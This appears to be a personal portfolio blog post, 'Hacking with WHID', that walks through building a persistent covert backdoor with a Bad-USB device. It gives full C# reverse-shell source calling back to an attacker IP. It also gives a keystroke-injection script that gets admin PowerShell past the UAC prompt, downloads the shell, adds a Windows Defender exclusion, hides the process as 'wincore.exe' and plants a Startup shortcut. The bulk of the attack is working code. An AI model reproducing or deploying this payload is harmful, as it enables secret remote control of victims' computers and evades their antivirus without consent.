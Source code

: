 ```yaml
---
permalink: /portfolio/whid/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Hacking with WHID
---
```


## Persistent reverse shell
TODO encryption

A reverse shell is great, but what if he stayed, no matter what? Using a Bad-USB of any kind, you can inject a payload to create a persistent reverse shell.

### The shell

First, we need our shell. This will be an executable written in `dotnet core 3.1` ([source](https://www.puckiestyle.nl/c-simple-reverse-shell/)):

```C#
using System;
using System.Diagnostics;
using System.IO;
using System.Net.Sockets;
using System.Text;
using System.Threading;

namespace Shell1
{
    class Program
    {
        static StreamWriter streamWriter;

        public static void Main(string[] args)
        {
            while (true)// keep going
            {
                try
                {
                    connect();
                }
                catch { }

                Thread.Sleep(60000); //wait a minute before reconnecting
            }
        }

        private static void connect()
        {
            using(TcpClient client = new TcpClient("192.168.241.1", 8090)) //connect to attacker
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "cmd.exe"; //use cmd, so it becauses a shell
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);// show the output
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch { }
            }
        }
    }
}
```

This code creates a reverse shell to the gives IP address, which is restarted every minute after closing. But this program has to be started by a user after every reboot. And the users won't just trust every program, so we need something to get the executable on the victim's system without their knowledge. Here the Bad-USB comes into play. For this example I used my WHID-Cactus, but it can be rewritten and used on any Bad-USB. I only changed the contents of the main method, so that the shell would reconnect after a minute.

```whid
Press:131+114
Print:powershell
Press:128+129+176
Press:216+176
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe") //TODO MY ip
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
exit
```

This little piece of code will make the perfect shell. Let's look at it line by line.

```whid
Press:131+114
```

This simulates a key-press by using Arduino keyboard-codes. `131` is the Windows-key and `114` is the letter 'r'. This will open the `Run` box on windows, allowing you to start an executable.

```whid
Print:powershell
```

This just types powershell into the `Run` box without an `enter` key pressed.

```whid
Press:128+129+176
Press:216+176
```

The first line uses the Arduino codes again to press `control`, `shift` and `enter`. This will run the given command (`powershell`) as administrator, we need this to disable Windows Defender. The second line will type the left arrow and `enter`, so that the UAC (admin-prompt) is answered with `yes`.

```powershell
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe")
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
```

This is where the juicy stuff starts, first we download the `shell.exe` and a `vb` script called `invis.vbs`.

```vbs
CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
```

Why do we need this? This little script runs an executable completely hidden. Only far into taskmanager can you find the process, but nobody expects a process called `wincore` to be evil.

Both files are downloaded into `C:\users\{user}\AppData\Local\Microsoft\Windows\0\`, a folder very little people dare to even open, this is just another step to make the shell look like a windows process to "normal" people.

```powershell
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
```

This line is the reason that powershell must start with privileges, this line makes a exclusion in Defender for all the processes named `wincore.exe`. This allows the shell to run without any interjection from Windows Defender.

```powershell
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
```

And lastly, we create a shortcut in `C:\users\{user}\AppDate\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`. Everything executable or shortcut in this folder is run after the user logs in. This way we can start our shell every time the system boots. This does not run the shell yet, however if you want to run it immediately, you can just add this line to the script:

```powershell
PrinteLine:C:\Windows\System32\wscript.exe "C:\Users\admin\AppData\Roaming\..\Local\Microsoft\Windows\0\start.vbs" "C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe"
```

This is simply the content of the shortcut.

We end the script with `exit`, so the user does not see that something is up. Currently, the script consists of multiple lines executed in powershell, but if it is rewritten to one powershell command that runs in the background, this injection can take only a few seconds to be ready. The execution then happens on the background, even when the usb is pulled out.
